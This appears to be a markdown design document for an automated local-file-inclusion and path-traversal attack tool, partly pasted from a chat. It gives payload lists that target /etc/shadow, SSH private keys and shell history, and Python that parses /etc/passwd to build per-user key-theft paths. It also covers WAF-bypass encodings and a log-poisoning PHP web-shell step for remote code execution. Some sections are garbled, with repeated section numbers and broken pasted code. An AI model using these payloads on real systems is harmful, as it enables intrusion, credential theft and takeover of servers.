

#### **1. Comprehensive Payload Categories**

**User-Selectable Categories Table**:

|Category ID|Description|Example Payloads|CLI Flag|
|---|---|---|---|
|`linux_system`|Core OS Files|`/etc/passwd`, `/etc/shadow`, `/proc/self/environ`|`--exploit linux_system`|
|`linux_users`|User Home Files|`~/.ssh/id_rsa`, `~/.bash_history`, `~/Documents/*`|`--exploit linux_users`|
|`log_rce`|Log-based RCE|`/var/log/apache2/access.log`, `/var/log/syslog`|`--exploit log_rce`|
|`windows_common`|Windows System|`C:\Windows\win.ini`|`--exploit windows_common`|
|`web_servers`|Web Server Configs|`/etc/apache2/apache2.conf`, `/etc/nginx/nginx.conf`|`--exploit web_servers`|
|`cron_jobs`|Scheduled Tasks|`/etc/crontab`, `/var/spool/cron/crontabs/root`|`--exploit cron_jobs`|
|`database`|Database Configs|`/etc/my.cnf`, `/var/lib/mysql/mysql.log`|`--exploit database`|
|`ftp_configs`|FTP Server Configs|`/etc/proftpd/proftpd.conf`, `/var/log/pure-ftpd.log`|`--exploit ftp_configs`|
|`ssh_keys`|SSH Authentication|`~/.ssh/id_rsa`, `/etc/ssh/sshd_config`|`--exploit ssh_keys`|
|`boot_files`|System Boot Configs|`/etc/inittab`, `/boot/grub/grub.cfg`|`--exploit boot_files`|


#### **2. Home Directory Discovery Process**

**Visual Workflow**:

![[deepseek_mermaid_20250502_9c497a.svg]]


**Step-by-Step Explanation**:

1. **Trigger Condition**:
    
    - When any payload successfully reads `/etc/passwd`
        
    - Response contains `root:x:0:0:` pattern
        
2. **User Extraction**:

```python
# Parsing /etc/passwd format:
# username:password:UID:GID:comment:home:shell
def _extract_users(content):
    return [
        {'user': parts[0], 'home': parts[5]} 
        for line in content.split('\n') 
        if (parts := line.split(':')) and len(parts) > 5
        and '/home/' in parts[5]
    ]
```

**Path Generation**:
```python
# Convert home directories to exploit targets
def generate_home_payloads(users):
    templates = [
        '.ssh/id_rsa',          # SSH private key
        '.bash_history',        # Command history
        'Documents/secrets.txt' # Common sensitive file
    ]
    return [
        f"{user['home']}/{file}" 
        for user in users 
        for file in templates
    ]
```

**Automated Retesting**:

- New payloads immediately added to scan queue
    
- Preserves original successful encoding:
```
# Original working payload: ../../etc/passwd%00
# Generated user payload: ../../home/john/.ssh/id_rsa%00
```


#### **3. RCE Detection Enhancement** (Proposed Implementation)
![[deepseek_mermaid_20250502_d0e3b2.svg]]
**Advanced Log Analysis**:

```python
def detect_rce_vectors(response):
    # Check for writable log locations
    log_paths = [
        '/var/log/apache2/access.log',
        '/proc/self/environ',
        '/var/log/nginx/error.log'
    ]
    
    if any(path in response.text for path in log_paths):
        return {
            'type': 'rce_potential',
            'confidence': 'high',
            'exploit_steps': [
                'Poison log: curl -A "<?php system($_GET[\'c\']);?>" TARGET',
                'Execute: http://target/vuln.php?file=access.log&c=id'
            ]
        }
    return None
```

**!!!!!!!Hypothetical!!!!! Improvement**:

```python
# Automated RCE payload generation (Conceptual)
def generate_rce_payloads(base_url):
    return [
        f"{base_url}?file=/proc/self/environ&LANG=php://input%00",
        f"{base_url}?logfile=../../var/log/apache2/access.log",
        f"{base_url}?config=phar:///path/to/exploit.phar"
    ]
```


#### **3. Advanced Encoding Techniques**

**Multi-Layer Obfuscation**:

|Technique|Example|Bypass Target|Implementation|
|---|---|---|---|
|**Double Encoding**|`%252e%252e%252fetc/passwd`|Basic WAF filters|`quote(quote(payload))`|
|**Null Byte**|`../../../etc/passwd%00.png`|File extension checks|Appended `.replace('\x00', '%00')`|
|**Unicode**|`..%c0%af..%ef%bc%8fetc/passwd`|ASCII validation|Manual Unicode insertion|
|**Mixed Slashes**|`..%2f..%5c..%2fetc/passwd`|OS-specific checks|Alternated `/` and `\` encoding|
|**Directory Depth**|`....//....//etc/passwd`|Simple `../` detection|Even-numbered traversal|

**Encoding Workflow**:


#### **6. Dynamic Payload Adjustment**

![[deepseek_mermaid_20250502_198fea.svg]]





________


1. **Pattern Inheritance**:
    
    python
    
    Copy
    
    Download
    
    def generate_derivatives(base_payload):
        pattern = base_payload.split('etc/passwd')[0]
        return [
            f"{pattern}etc/shadow",
            f"{pattern}root/.ssh/authorized_keys",
            f"{pattern}var/log/auth.log"
        ]
    
2. **Context-Aware Depth Control**:
    
    python
    
    Copy
    
    Download
    
    # Automatically increases traversal depth
    def escalate_depth(payload):
        current_depth = payload.count('../')
        return payload.replace('../', '../../', current_depth)
    
3. **Cross-OS Adaptation**:
    
    python
    
    Copy
    
    Download
    
    def convert_to_windows(payload):
        return payload.replace('../', '..\\').replace('/', '\\')
    

---

### **Suggested Additions** _(Optional Enhancements)_

1. **Wordlist Pre-Processing Statistics**
    
    python
    
    Copy
    
    Download
    
    # Hypothetical preprocessing report
    Wordlist Analysis:
    - Total entries: 1,250
    - Valid paths: 892 (71.36%)
    - Auto-generated variants: 358
    - Security blocks: 12 (0.96%)
    
2. **Payload Evolution Tracking**
    
    python
    
    Copy
    
    Download
    
    # Shows payload adaptation over time
    Generation 1: ../../etc/passwd
    Generation 2: ....//....//etc/shadow
    Generation 3: %252e%252e%252fetc%252fgroup
    
3. **Resource Management**
    
    python
    
    Copy
    
    Download
    
    # Controls memory usage during large scans
    MAX_PAYLOAD_MEMORY = 100MB
    if sys.getsizeof(payloads) > MAX_PAYLOAD_MEMORY:
        compress_payload_cache()